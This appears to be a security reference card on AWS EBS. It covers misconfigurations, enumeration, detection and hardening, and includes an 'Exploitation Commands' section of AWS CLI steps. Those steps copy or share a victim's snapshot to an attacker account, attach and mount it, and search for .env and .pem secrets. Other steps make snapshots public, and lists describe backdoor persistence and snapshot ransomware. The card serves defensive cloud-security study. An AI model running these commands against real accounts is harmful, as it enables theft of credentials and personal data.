

#  AWS EBS Security



> **Category**: STORAGE

Elastic Block Store (EBS) provides persistent block storage for EC2 instances. Snapshots can contain sensitive data and are often misconfigured with public sharing permissions.

## Quick Stats

| Risk Level | Scope | Volume Types | Encryption |
| --- | --- | --- | --- |
| **HIGH** | **AZ** | **gp3/io2** | **KMS** |

## Service Overview

### Volume Types

EBS offers multiple volume types: gp3/gp2 (general purpose SSD), io2/io1 (provisioned IOPS SSD), st1 (throughput HDD), and sc1 (cold HDD). Each attached to a single EC2 instance in the same AZ.

> Attack note: Volumes contain raw disk data - databases, credentials, application secrets

### Snapshots

Point-in-time backups stored in S3. Can be shared across accounts or made public. Snapshots are incremental but each can restore a complete volume.

> Attack note: Public snapshots are a goldmine - often contain secrets, SSH keys, database dumps

## Security Risk Assessment

`████████░░` **8.0/10** (CRITICAL)

EBS snapshots frequently contain sensitive data and are commonly misconfigured with public access. Unencrypted volumes expose data at rest. Snapshot sharing enables cross-account data exfiltration.

## ⚔️ Attack Vectors

### Snapshot Exposure

- Public snapshots with sensitive data
- Cross-account snapshot sharing
- Copy public snapshots to attacker account
- Create volume from stolen snapshot
- Mount and extract all data

### Volume Attacks

- Unencrypted volumes at rest
- Abandoned volumes with secrets
- Snapshot ransomware (encrypt + delete)
- Data exfiltration via snapshot copy
- Modify volume to inject malware

## ⚠️ Misconfigurations

### Snapshot Issues

- Snapshots shared publicly (Group: all)
- Shared to unknown/untrusted accounts
- No encryption on snapshots
- Orphaned snapshots not cleaned up
- No lifecycle policies for retention

### Volume Issues

- Default encryption disabled
- Using AWS managed keys vs CMK
- DeleteOnTermination: false (orphaned)
- No data classification tagging
- Missing backup/snapshot schedules

## 🔍 Enumeration

**List All Volumes**
```bash
aws ec2 describe-volumes
```

**List Your Snapshots**
```bash
aws ec2 describe-snapshots --owner-ids self
```

**Find Public Snapshots**
```bash
aws ec2 describe-snapshots --restorable-by-user-ids all
```

**Check Snapshot Sharing**
```bash
aws ec2 describe-snapshot-attribute \\
  --snapshot-id snap-xxx \\
  --attribute createVolumePermission
```

## 📤 Data Exfiltration

### Snapshot Theft Flow

- Find public/shared snapshot
- Copy snapshot to attacker account
- Create volume from snapshot
- Attach volume to attacker EC2
- Mount and extract all data

### Data Targets

- Database files (MySQL, PostgreSQL)
- SSH keys and credentials
- Application configuration files
- Environment files with secrets
- Logs with sensitive information

> **Gold Mine:** Database snapshots often contain complete production data - user tables, credentials, PII.

## 🔗 Persistence

### Persistence Methods

- Create snapshot of compromised volume
- Share snapshot to attacker account
- Modify volume with backdoor/rootkit
- Attach malicious volume to target EC2
- Store malware in hidden volume

### Impact

- Survive instance termination
- Maintain access across reboots
- Exfiltrate data over time
- Ransomware via snapshot encryption
- Supply chain via shared snapshots

## 🛡️ Detection

### CloudTrail Events

- CreateSnapshot - snapshot created
- ModifySnapshotAttribute - sharing changed
- CopySnapshot - snapshot copied
- CreateVolume - volume from snapshot
- DeleteSnapshot - snapshot deleted

### Indicators of Compromise

- Snapshot shared to unknown accounts
- Public snapshot attribute added
- Cross-region snapshot copies
- Unusual volume attachments
- Bulk snapshot operations

## Exploitation Commands

**Copy Snapshot to Attacker Account**
```bash
aws ec2 copy-snapshot \\
  --source-region us-east-1 \\
  --source-snapshot-id snap-target \\
  --description "exfil"
```

**Create Volume from Snapshot**
```bash
aws ec2 create-volume \\
  --snapshot-id snap-stolen \\
  --availability-zone us-east-1a
```

**Share Snapshot to Attacker**
```bash
aws ec2 modify-snapshot-attribute \\
  --snapshot-id snap-xxx \\
  --attribute createVolumePermission \\
  --operation-type add \\
  --user-ids 123456789012
```

**Attach Volume to EC2**
```bash
aws ec2 attach-volume \\
  --volume-id vol-xxx \\
  --instance-id i-attacker \\
  --device /dev/sdf
```

**Mount and Extract (on EC2)**
```bash
sudo mkdir /mnt/stolen
sudo mount /dev/xvdf1 /mnt/stolen
find /mnt/stolen -name "*.env" -o -name "*.pem"
```

**Make Snapshot Public (DoS/Exposure)**
```bash
aws ec2 modify-snapshot-attribute \\
  --snapshot-id snap-xxx \\
  --attribute createVolumePermission \\
  --operation-type add \\
  --group-names all
```

## Policy Examples

### ❌ Dangerous - Public Snapshot

```json
Snapshot Attributes:
CreateVolumePermission:
  - Group: all    # PUBLIC SNAPSHOT!

Volume: Unencrypted
DeleteOnTermination: false

// Anyone can copy this snapshot and access data
```

*Anyone in AWS can copy this snapshot and access all data*

### ✅ Secure - Private Encrypted

```json
Snapshot Attributes:
CreateVolumePermission:
  - UserId: 123456789012  # Specific account only

Volume: Encrypted (KMS CMK)
DeleteOnTermination: true
Tags: {"DataClassification": "Confidential"}
```

*Only specific account can access, encrypted with customer key*

## Defense Recommendations

### 🔐 Enable Default Encryption

Encrypt all new EBS volumes automatically with KMS.

```bash
aws ec2 enable-ebs-encryption-by-default
```

### 🚫 Block Public Snapshots

Prevent snapshots from being shared publicly at the account level.

```bash
aws ec2 enable-snapshot-block-public-access --state block-all-sharing
```

### 🔑 Use Customer Managed KMS Keys

Control key access and enable rotation for better security.

```bash
aws ec2 create-volume --encrypted \\
  --kms-key-id alias/my-ebs-key
```

### 📝 Enable CloudTrail Data Events

Log snapshot and volume operations for auditing.

### 🗑️ Implement Lifecycle Policies

Auto-delete old snapshots to reduce exposure window.

```bash
aws dlm create-lifecycle-policy \\
  --policy-details '{"PolicyType":"EBS_SNAPSHOT_MANAGEMENT"...}'
```

### 📊 AWS Config Rules

Alert on unencrypted volumes and public snapshots.

```bash
ec2-ebs-encryption-by-default, ec2-snapshot-public-restorable-check
```

---

*AWS EBS Security Card*

*Always obtain proper authorization before testing*
